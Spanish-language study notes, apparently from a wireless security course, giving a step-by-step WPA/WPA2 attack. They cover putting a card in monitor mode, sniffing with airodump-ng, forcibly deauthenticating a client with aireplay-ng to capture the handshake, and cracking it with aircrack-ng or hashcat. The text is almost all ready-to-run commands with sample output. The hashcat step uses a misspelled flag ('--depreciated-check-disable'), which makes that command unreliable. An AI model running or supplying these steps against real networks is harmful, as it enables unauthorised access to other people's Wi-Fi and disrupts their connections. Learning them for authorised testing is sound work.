 # Cracking de hashes

WPA, WPA2 y WPA3 soportan 2 tipos de autenticaciones: **Pre-shared Keys (PSK)** y **Enterprise**

**WPA** y **WPA2** tienen prácticamente el mismo método de autenticación por lo que todas las técnicas de ambas tecnologías son intercambiables.

**WPA3** tiene similitudes con **WPA** pero usa **Simultaneous Authentication of Equals (SAE)** y no es vulnerable a ataques offline.


# Deautenticated Attack

#### 1) Ponemos nuestra interface en modo monitor

#### 2) Sniffamos la red con airodump

    sudo airodump-ng <interface>

#### 3) Seleccionamos nuestro AP target

    sudo airodump-ng -c <channel> -w <prefix> --essid <essid> --bssid <bssid> <interface>

Caso de ejemplo:

    kali@kali:~$ sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
    ...
    
    CH  3 ][ Elapsed: 12 s ][ 2020-02-29 13:30 ][
    
     BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    
     34:08:04:09:3D:38  -45  87      107       69    1   3  54e. WPA2 CCMP   PSK  wifu
    
     BSSID              STATION            PWR   Rate    Lost  Packets  Probes
    
     34:08:04:09:3D:38  00:18:4D:1D:A8:1F  -26   54-54      0       31

#### 4) Obtenemos los datos de nuestro target(parte superior) y la MAC de un cliente que lo esté consumiendo (Station de la parte inferior)
#### 5) Desde otra terminal desautenticamos al cliente con aireplay

    sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon

#### 6) Cuando el cliente se reconecte airodump va a poder recolectar el handshake

Si no captura el handshake podemos repetir el paso **5** de las siguientes maneras:

- Moviendonos a una posición más cercana al router
- Algunos routers no soportan la desautenticación directa, por lo que tendremos que probar un broadcast: el mismo comando pero sin la flag -c (y el argumento)
- Si el tipo de conexión es 802.11w está en uso, no soporta desautenticaciones desencriptadas. Tendremos que dejar la recolección hasta que alguien se conecte.

Una vez capturado el handshake lo dejamos unos minutos más para obtener un poco más de info y cerramos airodump

#### 7) Utilizamos aircrack para crackear el handshake

    aircrack-ng -w <dictio> -e <essid> -b <bssid> <.pcap>

#### 8) Confirmamos que la clave sea correcta

    airdecap-ng -b <bssid> -e <essid> -p <passphrase> <.pcap>

Si el resultado muestra que se lograron desencriptar un monto de paquetes del pcap, entonces la pass-phrase es correcta.

### Realizar el crack con hashcat

Necesitamos los "utils" de hashcat

    sudo apt install hashcat-utils
    
#### 1) Convertimos el pcap a hccapx


    /usr/lib/hashcat-utils/cap2hccapx.bin <.pcap> output.hccapx

#### 2) Pasamos el archivo final por hashcat

    hashcat -m 2500 --depreciated-check-disable output.hccapx <dictio>
